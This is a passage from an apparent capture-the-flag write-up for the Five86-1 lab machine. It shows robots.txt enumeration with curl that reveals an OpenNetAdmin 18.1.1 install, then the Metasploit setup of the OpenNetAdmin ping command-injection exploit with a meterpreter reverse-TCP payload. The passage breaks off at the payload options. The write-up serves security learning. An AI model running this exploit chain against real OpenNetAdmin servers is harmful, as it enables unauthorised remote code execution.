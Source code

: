 # Web enumeration

There is a `robots.txt` file that discloses a `/ona` location:

~~~
kali@kali:/data/five86_1$ curl -s http://five86.box/robots.txt
User-agent: *
Disallow: /ona
~~~

Browsing http://five86.box/ona/ and selecting "Menu > ONA > About" will reveal that the application is "OpenNetAdmin - v18.1.1".

# Exploit OpenNetAdmin ping command injection vulnerability

Let's fire up Metasploit and search for exploits:

~~~
kali@kali:/data/five86_1/files$ msfconsole -q
[*] Starting persistent handler(s)...
msf5 > search opennetadmin

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/unix/webapp/opennetadmin_ping_cmd_injection  2019-11-19       excellent  Yes    OpenNetAdmin Ping Command Injection


msf5 > use 0
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set rhost five86.box
rhost => five86.box
msf5 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set lhost 172.16.222.128
lhost => 172.16.222.128
msf5 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > show options

Module options (exploit/unix/webapp/opennetadmin_ping_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     five86.box       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /ona/login.php   yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
~~~